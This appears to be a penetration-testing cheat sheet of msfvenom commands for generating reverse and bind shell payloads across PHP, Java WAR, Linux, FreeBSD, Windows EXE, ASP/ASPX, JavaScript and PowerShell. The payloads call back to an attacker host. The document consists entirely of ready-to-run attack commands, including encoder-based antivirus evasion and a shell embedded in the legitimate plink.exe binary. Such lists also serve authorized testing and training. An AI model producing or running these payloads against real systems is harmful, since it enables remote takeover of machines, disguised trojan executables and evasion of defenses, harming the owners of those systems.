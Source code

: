 # MSFVenom Payloads 

```shell
$ msfconsole -q
```

### PHP reverse shell  
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php```

### Java WAR reverse shell  
```msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war```

### Linux bind shell  
```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai```

### Linux reverse shell
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o pay```

``` msfconsole -q
>> use payload/linux/x86/shell_reverse_tcp
>> set LHOST 10.10.10.10
>> exploit
```

### Linux FreeBSD reverse shell  
```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf```

### Linux C reverse shell  
```msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c```

### Windows non staged reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe```

### Windows Staged (Meterpreter) reverse shell  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe```

### Windows Python reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py```

### Windows ASP reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp```

### Windows ASPX reverse shell
```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx```

### Windows JavaScript reverse shell with nops  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18```

### Windows Powershell reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```

### Windows reverse shell excluding bad characters  
```msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai```

### Windows x64 bit reverse shell  
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe```

### Windows reverse shell embedded into plink  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```
